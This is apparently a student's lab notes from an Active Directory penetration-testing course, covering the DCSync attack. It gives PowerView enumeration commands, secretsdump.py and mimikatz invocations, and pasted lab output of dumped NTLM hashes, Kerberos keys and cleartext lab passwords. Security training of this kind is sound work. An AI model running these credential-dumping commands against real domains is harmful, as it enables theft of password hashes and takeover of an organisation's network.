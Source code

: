 # DCSync

DCSync : steal Active Directory password database by using the built-in Directory Replication Service Remote Protocol

--> attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

**Viewing user's Replication Privileges through ADSI Edit**
Security > Replicating Directory Changes + Replicating Directory Changes All

**Using Get-DomainUser to View adunn's Group Membership**
Import-Module .\PowerView.ps1
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

**Using Get-ObjectAcl to Check adunn's Replication Rights**
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

If WriteDacl : we could also add this privilege to a user under our control, execute the DCSync attack

## secretsdump.py

**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

-just-dc-ntlm : if we only want NTLM hashes
-just-dc-user <USERNAME> : to only extract data for a specific user
-history : if we want to dump password history
-user-status : check and see if a user is disabled

**Listing Hashes, Kerberos Keys, and Cleartext Passwords**
ls inlanefreight_hashes*
inlanefreight_hashes.ntds : containing the NTLM hashes
inlanefreight_hashes.ntds.cleartext : containing cleartext passwords
inlanefreight_hashes.ntds.kerberos : containing Kerberos keys

**Viewing an Account with Reversible Encryption Password Storage Set**
Reversible Encryption Password : Vulnerable and can be use by an attacker 
--> It would typically be set to provide support for applications that use certain protocols that require a user's password to be used for authentication purposes.

--> they are stored using RC4 encryption

--> the key needed to decrypt them is stored in the registry (the Syskey) (can be extract by Domain Admin or equivalent)

**Enumerating Further using Get-ADUser**
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user

Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT

**Displaying the Decrypted Password**
cat inlanefreight_hashes.ntds.cleartext
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!

## mimikatz

runas /netonly /user:INLANEFREIGHT\adunn powershell
SyncMaster757

.\mimikatz.exe

## LAB

xfreerdp /u:htb-student /p:"Academy_student_AD!" /v:$TARGET
runas /netonly /user:INLANEFREIGHT\adunn powershell
SyncMaster757

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>

.\mimikatz.exe

--> FAILED

PS C:\tools>
ssh htb-student@172.16.5.225
HTB_@cademy_stdnt!

secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
SyncMaster757

WIN-JZO0FX1BTRF$:aes256-cts-hmac-sha1-96:4348a8992a35854d7104e04ecbd10b4a63fa496fca15af3ce5911462095bc286
WIN-JZO0FX1BTRF$:aes128-cts-hmac-sha1-96:db1204fbd939723e2a4053721f8e4148
WIN-JZO0FX1BTRF$:des-cbc-md5:97a486abda64ce86
LOGISTICS$:des-cbc-md5:0ebf3b5e4cb33b29
FREIGHTLOGISTIC$:des-cbc-md5:733749a2fb37f48c
[*] ClearText passwords grabbed
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
syncron:CLEARTEXT:Mycleart3xtP@ss!
[*] Cleaning up...

secretsdump.py -outputfile inlanefreight_hashes -just-dc-user khartsfield INLANEFREIGHT/adunn@172.16.5.5 
SyncMaster757

inlanefreight.local\khartsfield:1138:aad3b435b51404eeaad3b435b51404ee:4bb3b317845f0954200a6b0acc9b9f9a:::$

NTLM Hash : 4bb3b317845f0954200a6b0acc9b9f9a